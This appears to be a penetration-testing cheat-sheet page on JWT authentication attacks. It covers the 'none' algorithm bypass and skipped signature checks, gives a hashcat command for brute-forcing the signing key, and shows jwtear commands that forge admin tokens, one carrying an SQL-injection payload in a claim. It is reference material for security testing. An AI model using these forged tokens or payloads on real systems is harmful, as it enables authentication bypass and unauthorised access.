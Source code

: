 # Authentication

## Implementation errors

## OAuth token

## JWT

### Common attacks

#### Accepting token with arbitrary signature

In some cases the validation of the signature might be skipped entirely. In this case is enough to self-sign the token with a key matching the algorithm specified in the header to make the JWT valid

#### Accepting token with no signature

Setting the `alg` parameter in the header to 'none' means that the server should not check the signature of the token. By default tokens with this configuration are refused but since the validation of the parameter is performed by parsing the string it is possible to bypass the checks with obfuscation techniques

#### Bruteforce the secret key

The secret key used to sign the token can be bruteforced locally using HashCat

```
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

### Jwtear

Automated JWT vulnerabilities scan tool. Can be found [here](https://github.com/KINGSABRI/jwtear)

#### Create a signed token

```
jwtear --generate-token --header --header '{"typ":"JWT", "alg":"HS256"}' --payload '{"login":"admin"}' --key '<key>'
```

#### Create a token without signature

```
jwtear --generate-token --header --header '{"typ":"JWT", "alg":"none"}' --payload '{"login":"admin"}'
```

#### Test for injection in parameters

```
jwtear --generate-token --header '{"typ":"JWT", "alg":"none"}' --payload $'{"login":"admin \' or \'a\'=\'a\'}'
```
